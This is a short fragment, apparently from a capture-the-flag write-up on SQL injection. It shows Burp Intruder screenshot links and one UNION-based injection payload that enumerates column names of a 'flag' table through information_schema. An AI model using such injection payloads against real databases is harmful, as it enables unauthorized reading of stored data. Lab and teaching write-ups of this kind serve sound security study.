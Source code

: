 ![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_players_payload.png)
![SQLi - Burp - Intruder](images/sqli_player_burp_intruder_players_results.png)

```bash
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='flag' limit 1 offset 0-- -
```
